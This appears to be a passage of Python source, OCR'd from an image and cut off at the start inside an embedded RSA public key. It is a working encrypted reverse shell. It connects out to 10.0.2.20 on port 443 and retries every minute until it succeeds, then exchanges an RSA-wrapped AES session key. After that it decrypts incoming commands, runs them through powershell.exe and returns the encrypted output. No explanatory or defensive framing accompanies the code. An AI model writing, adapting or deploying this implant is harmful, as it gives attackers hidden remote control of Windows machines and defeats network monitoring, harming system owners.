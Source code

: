 ```
    yVcX0PReNxuylpgqvrd6jht3s7DvUSuK0SJYJSNiIxJPBcCmwGFdA+URSVZZfH81
    UscqCGgtDfFyioAICLNQFDCedes7+5z/XXWob/0aRblifPBtg4Bw/ZOkhpCFg7BA
    C7DMO8dG1Na2gl78cOsCyms4nHtd2vXOBHHSTMz3Ua7hyZVQC97lZKuJQ65ijy3c
    dNaiZzN1J1ehUiugP39bnNSjaH8QbAdYL+TapK39KZRXjA38ndnplfFT3X17tM/j
    5YW2z6dhMZsVpDMc3CdP30r5irC5XcnRXXHbf4WTtyL2/WhEmefre9I98r1smC+B
    iwIDAQAB
    -----END PUBLIC KEY-----'''

    public_key = RSA.import_key(public_pem)
    cipher = PKCS1_OAEP.new(public_key)
    ciphertext = cipher.encrypt(session_key)
    return ciphertext


def encrypt_AES_GCM(key, plaintext):
    cipher = AES.new(key=key, mode=AES.MODE_GCM)
    ciphertext, tag = cipher.encrypt_and_digest(plaintext)
    return cipher.nonce + tag + ciphertext


def decrypt_AES_GCM(key, nonce, tag, ciphertext):
    cipher = AES.new(key=key, nonce=nonce, mode=AES.MODE_GCM)
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
    return plaintext.decode('utf-8')


if __name__ == '__main__':
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    session_key = get_random_bytes(16)

    while True:
        try:
            sock.connect(('10.0.2.20', 443))
            break
        except:
            sleep(60)

    rsa_blob = encrypt_session_key(session_key)
    sock.sendall(rsa_blob)

    while True:
        try:
            message = sock.recv(4096)
            if not message:
                break
            nonce = message[:16]
            tag = message[16:32]
            ciphertext = message[32:]
            command = decrypt_AES_GCM(session_key, nonce, tag, ciphertext).split()
            result = subprocess.check_output(['powershell.exe'] + command, stderr=subprocess.STDOUT)
            aes_blob = encrypt_AES_GCM(session_key, result)
            sock.sendall(aes_blob)
        except subprocess.CalledProcessError as cpe:
            aes_blob = encrypt_AES_GCM(session_key, cpe.output)
            sock.sendall(aes_blob)
        except:
            aes_blob = encrypt_AES_GCM(session_key, 'Unexpected error!'.encode())
            sock.sendall(aes_blob)
```
